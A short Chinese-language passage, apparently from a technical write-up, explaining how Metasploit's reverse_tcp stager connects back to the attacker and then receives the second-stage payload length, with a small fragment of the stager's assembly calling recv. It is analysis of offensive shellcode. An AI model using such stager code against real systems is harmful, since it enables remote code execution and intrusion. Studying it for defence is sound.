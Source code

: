 asm\_reverse\_tcp函数中的汇编，大致有以下功能：加载socket相关dll，创建socket，绑定ip和端口，链接metasploit。就是做一些接收stage前的工作，为调用asm\_block\_recv接收stage做准备。

## asm\_block\_recv函数

![image.png](assets/1698893687-bd760f5516f889a4f8a8785cf3928a97.png)

首先调用recv函数接收msf发送过来的4字节数据，这4字节数据代表了即将发送过来的载荷的总大小。

```c
push 0 ; flags 
push 4 ; length = sizeof( DWORD ); 
push esi ; the 4 byte buffer on the stack to hold the second stage length 
push edi ; the saved socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
call ebp ; recv( s, &dwLength, 4, 0 );
```
